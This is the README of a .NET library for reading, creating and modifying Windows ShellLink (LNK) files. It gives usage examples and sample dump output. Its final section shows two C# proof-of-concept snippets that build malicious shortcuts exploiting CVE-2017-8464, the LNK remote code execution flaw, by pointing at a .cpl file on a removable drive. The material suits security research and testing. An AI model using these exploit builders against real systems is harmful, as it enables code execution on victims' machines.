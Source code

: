 # ShellLink
A .NET Class Library for processing ShellLink (LNK) files as documented in [MS-SHLLINK](https://msdn.microsoft.com/en-us/library/dd871305.aspx). It allows for reading, creating and modifying ShellLink (LNK) files.

Note this Class Library depends on the [PropertyStore](https://github.com/securifybv/PropertyStore) Class Library.

![.NET Core](https://github.com/securifybv/ShellLink/workflows/.NET%20Core/badge.svg)

## Examples

### Dump
```
Console.WriteLine(
	Shortcut.ReadFromFile(@"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Paint.lnk")
);
```

#### Sample Output
```
Shortcut:
HeaderSize: 76 (0x4C)
LinkCLSID: 00021401-0000-0000-c000-000000000046
LinkFlags: HasName, HasIconLocation, IsUnicode, ForceNoLinkInfo, HasExpString, EnableTargetMetadata, PreferEnvironmentPath
FileAttributes: 0
CreationTime: 1/1/1601 12:00:00 AM
AccessTime: 1/1/1601 12:00:00 AM
WriteTime: 1/1/1601 12:00:00 AM
FileSize: 0 (0x0)
IconIndex: 0
ShowCommand: SW_SHOWNORMAL
HotKey: 0
StringData:
NameString: @%SystemRoot%\system32\shell32.dll,-22566
IconLocation: %windir%\system32\mspaint.exe
ExtraData:
EnvironmentVariableDataBlock:
BlockSize: 788 (0x314)
BlockSignature: 0xA0000001
TargetAnsi: %windir%\system32\mspaint.exe
TargetUnicode: %windir%\system32\mspaint.exe
PropertyStoreDataBlock:
BlockSize: 102 (0x66)
BlockSignature: 0xA0000009
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 46588ae2-4cbc-4338-bbfc-139326986dce
IntegerName:
ValueSize: 17 (0x11)
ID: 0x0
TypedPropertyValue:
Type: VT_UI4
Value: 0
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 9f4c2855-9f79-4b39-a8d0-e1d42de1d5f3
IntegerName:
ValueSize: 17 (0x11)
ID: 0x12
TypedPropertyValue:
Type: VT_UI4
Value: 1
```

### Create
```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\calc.exe")
	.WriteToFile(@"calc.lnk");
```

```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\cmd.exe", 
	"/c calc.exe", 
	@"%SystemRoot%\System32\calc.exe", 0)
		.WriteToFile(@"calc2.lnk");
```

```
new Shortcut()
{
	LinkTargetIDList = new LinkTargetIDList()
	{
		Path = @"C:\Windows\System32\calc.exe"
	}
}.WriteToFile(@"calc3.lnk");
```

### Modify
```
Shortcut PowerShellLnk = Shortcut.ReadFromFile(
	Environment.ExpandEnvironmentVariables(@"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Windows PowerShell\Windows PowerShell.lnk")
);
// change the background color
PowerShellLnk.ExtraData.ConsoleDataBlock.FillAttributes &= ~FillAttributes.BACKGROUND_BLUE;
PowerShellLnk.WriteToFile(@"PowerShell.lnk");
```

### CVE-2017-8464 | LNK Remote Code Execution Vulnerability

#### SpecialFolderDataBlock
```
Shortcut poc = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl"),
};
int Index = poc.LinkTargetIDList.ItemIDList.Count - 1;
poc.ExtraData.SpecialFolderDataBlock = new SpecialFolderDataBlock()
{
	SpecialFolderID = CSIDL.CSIDL_CONTROLS,
	Offset = poc.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc.WriteToFile(@"CVE-2017-8464.lnk");
```

#### KnownFolderDataBlock
```
Shortcut poc2 = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl")
};
int Index = poc2.LinkTargetIDList.ItemIDList.Count - 1;
poc2.ExtraData.KnownFolderDataBlock = new KnownFolderDataBlock()
{
	KnownFolderID = KNOWNFOLDERID.FOLDERID_ControlPanelFolder,
	Offset = poc2.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc2.WriteToFile(@"CVE-2017-8464-2.lnk");
```

